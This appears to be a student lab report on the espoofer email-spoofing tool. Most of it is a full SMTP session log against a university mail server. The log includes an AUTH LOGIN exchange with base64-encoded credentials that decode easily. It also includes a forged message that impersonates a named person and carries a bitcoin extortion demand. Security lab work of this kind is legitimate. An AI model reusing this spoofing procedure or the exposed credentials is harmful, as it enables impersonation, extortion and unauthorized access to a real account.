

# Lab Report : Espoofer Lab

I can fake an email right now! Please check out

.

I use client mode a3 and I modified [config.py](config.py).

The command line output is:

```
$ python3 espoofer.py -m c
                               ____         
  ___  _________  ____  ____  / __/__  _____
 / _ \/ ___/ __ \/ __ \/ __ \/ /_/ _ \/ ___/
/  __(__  ) /_/ / /_/ / /_/ / __/  __/ /    
\___/____/ .___/\____/\____/_/  \___/_/     
        /_/                                 
    
Start sending emails...
Connecting ('mail.sjtu.edu.cn', 587)
>>> 220 proxy188.sjtu.edu.cn ESMTP Postfix

<<< ehlo espoofer-MacBook-Pro.local

>>> 250-proxy188.sjtu.edu.cn
250-PIPELINING
250-SIZE 524288000
250-VRFY
250-ETRN
250-STARTTLS
250-AUTH PLAIN LOGIN
250-AUTH=PLAIN LOGIN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN

<<< starttls

>>> 220 2.0.0 Ready to start TLS

<<< ehlo espoofer-MacBook-Pro.local

>>> 250-proxy188.sjtu.edu.cn
250-PIPELINING
250-SIZE 524288000
250-VRFY
250-ETRN
250-AUTH PLAIN LOGIN
250-AUTH=PLAIN LOGIN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250 DSN

<<< AUTH LOGIN dHdsLXR3bEBzanR1LmVkdS5jbg==

>>> 334 UGFzc3dvcmQ6

<<< MDA0MzIybHVjYXM=

>>> 235 2.7.0 Authentication successful

<<< mail from: </*Ommited*/@sjtu.edu.cn>

>>> 250 2.1.0 Ok

<<< rcpt to: </*Ommited*/@sjtu.edu.cn>

>>> 250 2.1.5 Ok

<<< data

>>> 354 End data with <CR><LF>.<CR><LF>

<<< From: <JuanruLi@sjtu.edu.cn>
To: </*Ommited*/@sjtu.edu.cn>
Subject: Hijack!
Date: Mon, 26 May 2025 14:17:17 +0000
Sender: <JuanruLi@sjtu.edu.cn>
Content-Type: text/plain; charset="UTF-8"
MIME-Version: 1.0
Message-ID: <1538085644648.096e3d4e-bc38-4027-b57e-AKFS0A@message-ids.attack.com>
X-Email-Client: https://github.com/chenjj/espoofer

Give me 0.1 bitcoin or I will keep sending these emails
.

>>> 250 2.0.0 Ok: queued as 85E3137C8C7

<<< quit

>>> 221 2.0.0 Bye

Finished.
```